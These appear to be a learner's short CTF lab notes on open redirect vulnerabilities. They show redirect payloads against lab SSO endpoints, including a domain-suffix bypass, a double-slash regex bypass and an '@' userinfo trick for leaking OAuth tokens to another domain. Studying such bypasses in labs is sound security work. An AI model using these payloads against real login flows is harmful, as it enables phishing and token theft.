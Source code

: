 ____

https://github.com/payloadbox/open-redirect-payload-list

```html
<a href="/?redirect=http://www.google.com">Google</a>
```

# Bypassing protections

![[Pasted image 20241130123503.png]]

```
?redirect=http://www.google.com.test
```

# SSO Example

![[Pasted image 20241130124246.png]]

![[Pasted image 20241130124308.png]]

```
https://auth.creon.ctfio.com/auth?client_id=1&redirect_url=https://creon.ctfio.com/redirect?url=https://www.google.com&response_type=token
```

# Protections

Regex looking for //
```
https://auth.icarus.ctfio.com/auth?client_id=1&redirect_url=https://icarus.ctfio.com/x//www.google.com&response_type=token
```

Use the domain before the `@` as a fake username to redirect to the domain after the `@`

```
https://auth.daedalus.ctfio.com/auth?client_id=1&redirect_url=https://daedalus.ctfio.com@www.google.com/&response_type=token
```

# XSS

![[Pasted image 20241130131636.png]]

